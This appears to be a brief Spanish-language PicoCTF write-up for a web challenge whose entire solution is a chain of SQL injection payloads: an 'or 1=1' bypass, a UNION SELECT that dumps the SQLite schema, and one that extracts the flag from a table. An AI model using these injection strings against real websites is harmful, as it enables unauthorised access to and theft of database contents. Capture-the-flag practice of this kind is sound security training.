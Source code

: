 # Retos PicoCTF


## Objetivo 

Can you find the flag on this website.
Additional details will be available after launching your challenge instance.
## Solución 

```
'or 1=1;-- Algies' union select sql,1,1 from sqlite_master;-- Algiers' union select flag,id,1 from more_table;--
```

## Notas adicionales 

## Referencias 
